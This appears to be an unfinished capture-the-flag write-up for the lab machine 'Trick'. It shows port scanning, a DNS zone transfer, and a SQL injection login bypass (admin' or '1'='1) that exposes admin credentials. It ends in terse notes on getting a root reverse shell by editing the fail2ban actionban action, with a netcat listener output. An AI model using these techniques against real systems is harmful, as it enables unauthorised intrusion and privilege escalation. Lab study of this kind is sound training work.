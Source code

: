 # Trick

## Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```shell
└─$ export IP=10.10.11.166
└─$ echo $IP
10.10.11.166
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```shell
└─$ ping $IP
PING 10.10.11.166 (10.10.11.166) 56(84) bytes of data.
64 bytes from 10.10.11.166: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.10.11.166: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.10.11.166: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.10.11.166: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Scan

First step after spawning in the target machine and connected to the VPN, I start an [`nmap`](https://nmap.org) scan to determine open ports and running services and may be vulnerable using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-p-`: Scan all possible ports
`-v`: Verbose output for more information about the scan
`-oN`: Write the output of the scan into a file

``` shell
└─$ nmap -sV -sC -p- -v -oN scan.nmap $IP
```

After the scan is complete, here's the result:

```shell
Nmap scan report for 10.10.11.166
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I also added `trick.htb` to my local dns `/etc/hosts`:

```
10.10.11.166	trick.htb
```

---

## Poking Around

### SMTP Enumeration

After reading through the scanning process, I started playing with port 25 running SMTP service, tried to enumerate its users using `smtp-user-snum`, `telnet` using `VRFY` command, but after few minutes all I know is that there's `root` user which looks like to be the target user. However, I didn't get to anything useful in this step.

I then tried submitting the email form and started sniffing the traffic on `tun0` interface to see if I can capture any SMTP packets but I got none. At this point I decided to look somewhere else for a breach, since I spent too much time on this area.

### DNS Enumeration

Next step I tried to enumerate DNS using `dig`:

```shell
└─$ dig axfr trick.htb @trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr trick.htb @trick.htb
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
```

After finding out about `preprod-payroll.trick.htb.` I added it to the entries at hosts file:

```bash
10.10.11.166	trick.htb, preprod-payroll.trick.htb.
```

I then went ahead and openned my browser and headed to `preprod-payroll.trick.htb.`, and was greeted with an admin login page, I started submitting some SQL Injection queries and eventually it worked! `admin' or '1'='1` seemed to log me in to the administrator account.

After navigating through the website I found an `edit account` functionality which lead me to know the password of the admin which is `SuperGucciRainbowCake` and the username is `Enemigosss`.


└─$ sudo nc -lvnp 1337                                                             
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.166] 51180
bash: cannot set terminal process group (2328): Inappropriate ioctl for device
bash: no job control in this shell
root@trick:/#

edit /etc/fail2ban/action./iptables-multiport.conf --> edit actionban -> rev shell

fail ssh connection as root -> nc listener -> REV SHELL -> root flag